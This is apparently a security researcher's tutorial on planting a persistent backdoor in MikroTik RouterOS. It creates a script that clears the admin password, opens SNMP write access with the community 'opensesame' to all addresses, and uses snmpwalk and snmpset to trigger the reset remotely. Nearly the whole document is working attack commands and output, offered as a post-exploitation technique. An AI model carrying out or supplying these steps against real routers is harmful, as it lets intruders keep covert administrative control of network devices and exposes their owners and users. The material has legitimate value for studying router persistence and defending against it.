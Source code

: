 ### Tutorial: Implementing a Password Reset Function for Persistent Access in MikroTik RouterOS

This tutorial demonstrates a post-exploitation technique to establish persistent access in MikroTik RouterOS by implementing a password reset function triggered via SNMP. We will create a MikroTik script named "password reset" to clear the admin password, enable SNMP write access using the community string "opensesame," and confirm the SNMP service is operational. The process concludes with using snmpwalk to query available scripts and snmpset to execute the password reset script remotely via SNMP, ensuring continued access post-authentication.

#### Step 1: Create the Password Reset Script

1. **Access the MikroTik CLI**:
   - You can access the MikroTik CLI via SSH, Telnet, or the Winbox terminal. For SSH, use a terminal application like PuTTY or the built-in terminal on your operating system.
   - Connect to your MikroTik router using its IP address and login credentials.

   ```sh
   ssh admin@<router_ip_address>
   ```

2. **Create the Script**:
   - Use the following command to create a new script named "password reset" that changes the password of the "admin" user to an empty password.

   ```sh
   /system script add name="password reset" source="/user set admin password=\"\""
   ```

3. **Verify the Script**:
   - Verify that the script has been created correctly by listing all scripts.

   ```sh
   /system script print
   ```

   Output:
   ```
   [admin@MikroTik] > /system script add name="password reset" source="/user set admin password=\"\""
   [admin@MikroTik] > /system script print
   Flags: I - invalid
    0   name="password reset" owner="admin" policy=ftp,reboot,read,write,policy,test,password,sniff,sensitive,romon
        dont-require-permissions=no run-count=0 source=/user set admin password=""
   ```

#### Step 2: Enable SNMP Write Access

1. **Enable SNMP**:
   - Enable the SNMP service on the router.

   ```sh
   /snmp set enabled=yes
   ```

2. **Configure SNMP Community**:
   - Add an SNMP community "opensesame" with write access.

   ```sh
   /snmp community add name=opensesame addresses=0.0.0.0/0 write-access=yes
   ```

3. **Verify SNMP Configuration**:
   - Verify that the SNMP service and community have been configured correctly.

   ```sh
   /snmp print
   /snmp community print
   ```

   Output:
   ```
   [admin@MikroTik] > /snmp print
            enabled: yes
            contact:
           location:
          engine-id:
        trap-target:
     trap-community: public
       trap-version: 1
     trap-generators: temp-exception
   [admin@MikroTik] > /snmp community print
   Flags: * - default, X - disabled
    #    NAME                ADDRESSES                                                 SECURITY   READ-ACCESS WRITE-ACCESS
    0 *  public              ::/0                                                      none       yes         no
    1    opensesame          0.0.0.0/0                                                 none       yes         yes
   ```

#### Step 3: Query Scripts Using SNMP

1. **Install SNMP Tools**:
   - Ensure that you have SNMP tools installed on your system. On Debian-based systems, you can install them using:

   ```sh
   sudo apt-get install snmp
   ```

2. **Use `snmpwalk` to Query Scripts**:
   - Use the `snmpwalk` command to query the OID `1.3.6.1.4.1.14988.1.1.8` to list the scripts.

   ```sh
   snmpwalk -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8
   ```

   - This command will list the scripts available on the MikroTik router. Note that the MIB table OID
   values may differ.

   Output:
   ```
   SNMPv2-SMI::enterprises.14988.1.1.8.1.1.2.1 = STRING: "password reset"
   SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.1 = INTEGER: 0
   ```

#### Step 4: Run the Script Using SNMP

1. **Use `snmpset` to Run the Script**:
   - Use the `snmpset` command to run the "password reset" script. Replace `<router_ip_address>` with the IP address of your MikroTik router.
   Ensure you are using the correct MIB table values for your script, from the snmpwalk command above. 

   ```sh
   snmpset -c opensesame -v2c <router_ip_address> 1.3.6.1.4.1.14988.1.1.8.1.1.3.1 i 1
   ```

   Output:

   ```
   SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.1 = INTEGER: 1
   ```

   - This command will execute the "password reset" script, setting the admin password to an empty string. 
   You can now authenticate to the router with `ssh admin@router_ip_address`.

#### Summary

This tutorial outlines adding a password reset function to MikroTik RouterOS as a post-exploitation technique for maintaining persistent access after authentication. It involves creating a "password reset" script to clear the admin password, enabling SNMP write access with the "opensesame" community string, verifying SNMP functionality, querying scripts with snmpwalk, and executing the script via snmpset. Administrative access to the router and basic networking knowledge are required. 

---

**Author**: Hacker Fantastic  
**Date**: April 17, 2025  
**Website**: [https://hacker.house](https://hacker.house)